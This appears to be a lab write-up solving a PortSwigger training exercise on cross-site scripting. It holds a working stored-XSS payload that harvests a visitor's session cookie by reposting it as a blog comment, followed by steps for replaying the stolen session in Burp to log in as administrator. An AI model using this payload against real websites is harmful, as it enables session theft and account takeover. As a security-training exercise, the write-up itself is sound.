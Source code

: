 # Lab: Exploiting cross-site scripting to steal cookies
# https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

# I don't have professional version so I will try to solve it by alternative way.

```bash
# Create a comment with

<script>alert()</script>

# Alert works.
```
```bash

# Go to post with post id 9 and create comment

<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 9);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'a@gmail.com');
data.append('website', 'http://www.abc.abca');

fetch('/post/comment', {
 method: 'POST',
 mode: 'no-cors',
 body: data
});
});
</script>

```
```bash
# Go to burp take my-account get request to repeater from target.
# Copy the Victims session that commented out and add this into  our request and send it.

Cookie: session=PT8KB2sp0YW1rVKadZ1zMKSRE3ubtbbU;

# If you render the response you see that the username of the user is administrator.
# If you get back to page you will see that you solved the lab.
```

# Reference: https://www.youtube.com/watch?v=N_87S9XVy0w
